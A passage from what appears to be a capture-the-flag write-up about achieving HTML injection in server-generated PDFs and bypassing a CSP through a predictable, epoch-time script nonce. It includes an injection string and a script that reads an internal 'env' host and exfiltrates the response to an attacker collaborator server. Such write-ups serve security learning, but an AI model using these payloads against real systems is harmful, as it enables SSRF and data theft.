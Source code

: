Using the above hypothesis eventually we are able to achieve HTML injection within the generated PDFs with a code like the following being placed in the address field

`</textarea><h1>HTML Injected</h1>`

The submited request is the following

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/eed42e0d-ec0c-495a-96f9-0ba1eb308c9d)

Once the PDF is generated we can see that we have successfully achieved HTML injection, as our payload is rendered within the PDF document.

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/74ea672c-017e-4176-93ba-e9fb63504b09)

Our next goal now would be to perform an attack that would allow us to see if we can access the content of the `env` host.

However, observing the response headers from the previous screenshost we can notice that the web application implements a CSP policy.

```http
Content-Security-Policy: img-src 'self';script-src 'nonce-1692256624' 'self' ajax.googleapis.com maxcdn.bootstrapcdn.com;frame-src 'none';script-src-attr 'none'
```

Therefore this limits our options for SSRF as we can't use stuff such as iframes. By reviewing the CSP policy we notice that for **script-src** a nonce is used. The nonce however appears to be sort and weak, as it is a predictable value. 
In more detail the nonce appears to be the epoch time. This means that it can be predictable and therefore easy to submit a value that will allow script execution.

Therefore, we now have a target and a potential bypass on the implemented protections. Subsequently we can craft an attack payload to confirm if the bot can access the **env** subdomain and read its contents.

The following code can be used.

```javacript
<script nonce='1692123412'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
```

The code above will attempt to read the contents of the **env** domain including a nonce for the script that should be equal to the epoch time the server has during its execution. Once the content is read it will be send to our collaborator server.

To ensure that the nonce value will be correct, we can include additional nonces each one incremented by one. Example below
